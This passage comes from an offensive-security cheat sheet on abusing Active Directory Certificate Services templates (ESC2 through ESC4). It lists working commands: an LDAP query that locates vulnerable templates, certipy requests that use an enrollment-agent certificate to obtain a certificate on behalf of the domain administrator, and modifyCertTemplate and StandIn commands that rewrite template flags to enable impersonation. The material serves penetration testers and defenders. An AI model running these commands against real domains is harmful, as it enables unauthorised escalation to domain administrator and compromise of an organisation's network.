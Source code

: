 - Allows requesters to specify a Subject Alternative Name (SAN) in the CSR as well as allows Any Purpose EKU (2.5.29.37.0)

Exploitation:

- Find template
    
    ```ps1
    PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
    ```
    
- Request a certificate specifying the `/altname` as a domain admin like in [ESC1](#esc1---misconfigured-certificate-templates).
    

### ESC3 - Misconfigured Enrollment Agent Templates

> ESC3 is when a certificate template specifies the Certificate Request Agent EKU (Enrollment Agent). This EKU can be used to request certificates on behalf of other users

- Request a certificate based on the vulnerable certificate template ESC3.
    
    ```ps1
    $ certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC3'
    [*] Saved certificate and private key to 'john.pfx'
    ```
    
- Use the Certificate Request Agent certificate (-pfx) to request a certificate on behalf of other another user
    
    ```ps1
    $ certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'User' -on-behalf-of 'corp\administrator' -pfx 'john.pfx'
    ```
    

### ESC4 - Access Control Vulnerabilities

> Enabling the `mspki-certificate-name-flag` flag for a template that allows for domain authentication, allow attackers to "push a misconfiguration to a template leading to ESC1 vulnerability

- Search for `WriteProperty` with value `00000000-0000-0000-0000-000000000000` using [modifyCertTemplate](https://github.com/fortalice/modifyCertTemplate)
    
    ```ps1
    python3 modifyCertTemplate.py domain.local/user -k -no-pass -template user -dc-ip 10.10.10.10 -get-acl
    ```
    
- Add the `ENROLLEE_SUPPLIES_SUBJECT` (ESS) flag to perform ESC1
    
    ```ps1
    python3 modifyCertTemplate.py domain.local/user -k -no-pass -template user -dc-ip 10.10.10.10 -add enrollee_supplies_subject -property mspki-Certificate-Name-Flag
    
    # Add/remove ENROLLEE_SUPPLIES_SUBJECT flag from the WebServer template. 
    C:\>StandIn.exe --adcs --filter WebServer --ess --add
    ```
    